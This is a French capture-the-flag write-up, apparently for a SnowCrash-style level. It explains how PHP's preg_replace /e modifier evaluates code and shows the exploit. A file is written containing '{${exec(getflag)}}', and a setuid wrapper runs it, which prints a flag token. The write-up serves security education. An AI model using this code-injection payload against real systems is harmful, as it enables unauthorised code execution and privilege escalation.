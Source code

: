```shell
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a; }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
La fonction preg_replace() en PHP est utilisée pour effectuer une recherche et un remplacement de chaînes de caractères basées sur des expressions régulières (REGEX).

l'option /e est utilisée dans les expressions régulières pour évaluer dynamiquement le remplacement en tant que code PHP.

 L'expression régulière "/(\[x (.*)\])/e" dans la fonction preg_replace() en PHP correspond à une chaîne de caractères qui contient [x suivi d'un ou plusieurs espaces et de n'importe quel caractère (.*) jusqu'à ce qu'un ] soit trouvé. Les parenthèses sont utilisées pour capturer la sous-chaîne correspondant à (.*).

 Ainsi, en utilisant preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a), la fonction va rechercher toutes les occurrences de la chaîne de caractères [x suivie d'un ou plusieurs espaces, suivie de n'importe quelle sous-chaîne jusqu'à ce qu'un ] soit trouvé. La fonction va ensuite remplacer toute la sous-chaîne correspondante par le résultat de l'exécution de la fonction y() avec le deuxième groupe de capture (\\2) comme argument.

Par exemple, si $a est égal à la chaîne de caractères [x test], la fonction preg_replace() va capturer la sous-chaîne test et l'exécuter comme argument de la fonction y(). Le résultat final sera le résultat de l'exécution de la fonction y("test").

On va donc *injecter* un code pour executer getflag ( les fichiers on -user=flag06)

```shell
echo '[x {${exec(getflag)}}]' > /tmp/get_token
```

```shell
./level06 /tmp/get_token
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```